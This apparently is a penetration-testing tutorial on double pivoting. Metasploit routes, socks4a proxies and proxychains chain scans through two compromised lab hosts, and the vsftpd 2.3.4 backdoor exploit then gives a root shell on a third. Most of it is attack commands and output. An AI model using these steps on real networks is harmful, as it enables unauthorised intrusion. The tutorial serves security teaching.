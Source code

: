 Refer to these links: https://pentest.blog/explore-hidden-networks-with-double-pivoting/			&				https://www.hdysec.com/double-pivoting-both-metasploit-and-manual/

The network scenario above + the resolution of the problem is from this blog: https://pentest.blog/explore-hidden-networks-with-double-pivoting/	

**CONSIDER THE FOLLWING NETWORK SCENARIO:**

```
Attacker(172.16.0.20) -> 172.16.0.11(Victim 1)
                         7.7.7.11    -> 7.7.7.20(Victim 2)
                                        8.8.8.3    -> 8.8.8.9(Victim 3)
```

We, as the Attacker(172.16.0.20), want to compromise Victim 3(8.8.8.9).

To do so our traffic must be proxied through Victim 1 and Victim 2. Supose that we already have a meterpreter shell for Victim 1 and Victim 2. Victim 2 was compromised through a proxy on 127.0.0.1:1080 TCP.

*Setting the proxy for Victim 1:*

```
1. meterpreter > ipconfig
172.16.0.11
7.7.7.11

2. meterpreter > run autoroute -s 7.7.7.0/24
[*] Adding a route to 7.7.7.0/255.255.255.0...
[+] Added route to 7.7.7.0/255.255.255.0 via 172.16.0.11

3. meterpreter > run post/windows/gather/arp_scanner RHOSTS=7.7.7.0/24
[*] ARP Scanning 7.7.7.0/24
[*]     IP: 7.7.7.11 MAC 08:00:27:7f:3c:fe 
[*]     IP  7.7.7.12 MAC 08:00:27:3a:b2:c1 
[*]     IP: 7.7.7.20 MAC 08:00:27:fa:a0:c5 
[*]     IP: 7.7.7.255 MAC 08:00:27:3f:2a:b5

4. meterpreter > bg
[*] Backgrounding session 1...

5. msf > use auxiliary/server/socks4a

6. msf auxiliary(socks4a) > set srvhost 172.16.0.20

7. msf auxiliary(socks4a) > set srvport 1080

8. msf auxiliary(socks4a) > run

9. Add this line to the /etc/proxychains.conf file
socks4  172.16.0.20 1080
```
Now we are able to access the 7.7.7.0/24 network using proxychains:

```
~# proxychains nmap -sT -sV -Pn -n -p22,80,135,139,445 7.7.7.20
ProxyChains-3.1 (http://proxychains.sf.net)

Starting Nmap 7.25BETA1 ( https://nmap.org )
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:445-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:80-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:135-<><>-OK
|S-chain|-<>-172.16.0.20:1080-<><>-7.7.7.20:22-<><>-OK
...
...
```

*Setting the proxy for Victim 2:*

```
1. meterpreter > ipconfig
7.7.7.20
8.8.8.3

2. meterpreter > run post/windows/gather/arp_scanner RHOSTS=8.8.8.0/24
[*] ARP Scanning 8.8.8.0/24
[*]   IP: 8.8.8.3 MAC 08:00:27:29:cd:cb 
[*]   IP: 8.8.8.1 MAC 0a:00:27:00:00:03 
[*]   IP: 8.8.8.9 MAC 08:00:27:56:f1:7c 
[*]    IP: 8.8.8.13 MAC 08:00:27:13:a3:b1

3. meterpreter > run autoroute -s 8.8.8.0/24
[*] Adding a route to 8.8.8.0/255.255.255.0...
[+] Added route to 8.8.8.0/255.255.255.0 via 7.7.7.20
[*] Use the -p option to list all active routes

4. meterpreter > bg
[*] Backgrounding session 2...

5. msf > route print
 Subnet Netmask Gateway
 ------ ------- -------
 7.7.7.0 255.255.255.0 Session 1
 8.8.8.0 255.255.255.0 Session 2

6. msf > use auxiliary/server/socks4a

7. msf auxiliary(socks4a) > set SRVPORT 1081

8. msf auxiliary(socks4a) > set SRVHOST 172.16.0.20

9. msf auxiliary(socks4a) > run

10. Add this lines to the /etc/proxychains.conf
dynamic_chain
proxy_dns 
tcp_read_time_out 15000
tcp_connect_time_out 8000
socks4  172.16.0.20 1080  # First Pivot
socks4  172.16.0.20 1081  # Second Pivot
```

Now we can access the 8.8.8.0/24 subnet using proxychains:

```
~# proxychains nmap -sT -sV -p21,22,23,80 8.8.8.9 -n -Pn -vv
ProxyChains-3.1 (http://proxychains.sf.net)

Starting Nmap 7.25BETA1 ( https://nmap.org )
NSE: Loaded 36 scripts for scanning.
Initiating Connect Scan
Scanning 8.8.8.9 [4 ports]
|D-chain|-<>-172.16.0.20:1080-<>-172.16.0.20:1081-<><>-8.8.8.9:21-<><>-OK
Discovered open port 21/tcp on 8.8.8.9
|D-chain|-<>-172.16.0.20:1080-<>-172.16.0.20:1081-<><>-8.8.8.9:23-<><>-OK
Discovered open port 23/tcp on 8.8.8.9
|D-chain|-<>-172.16.0.20:1080-<>-172.16.0.20:1081-<><>-8.8.8.9:22-<><>-OK
Discovered open port 22/tcp on 8.8.8.9
|D-chain|-<>-172.16.0.20:1080-<>-172.16.0.20:1081-<><>-8.8.8.9:80-<><>-OK
...
...
...
```
Proxying traffic between 2 different proxies was posible because the proxyphains tool connects the proxy servers and transmits the connection end to end. Also note the "-sT" parameter on the nmap scans, indicating nmap to pass traffic through the proxy.

*Compromising Victim 3:*

```
msf exploit(vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  21               yes       The target port
Exploit target:
   Id  Name
   --  ----
   0   Automatic

msf exploit(vsftpd_234_backdoor) > set rhost 8.8.8.9
rhost => 8.8.8.9

msf exploit(vsftpd_234_backdoor) > run
[*] 8.8.8.9:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 8.8.8.9:21 - USER: 331 Please specify the password.
[+] 8.8.8.9:21 - Backdoor service has been spawned, handling...
[+] 8.8.8.9:21 - UID: uid=0(root) gid=0(root)
[*] Found shell.
[*] Command shell session 4 opened (Local Pipe -> Remote Pipe)

ifconfig
8.8.8.9
```

**MITIGATIONS:**

(I've write this mitigations down here, in case you have any problems using the solution explained so that you have an understanding of what could be happening. Also, credit to this blog: https://pentest.blog/explore-hidden-networks-with-double-pivoting/ for providing this mitigations).

- Systems that contain multiple NICs and provide DMZ access should be removed from the existing network structure.
- Systems in the DMZ structure should only be accessed over DMZ structures.
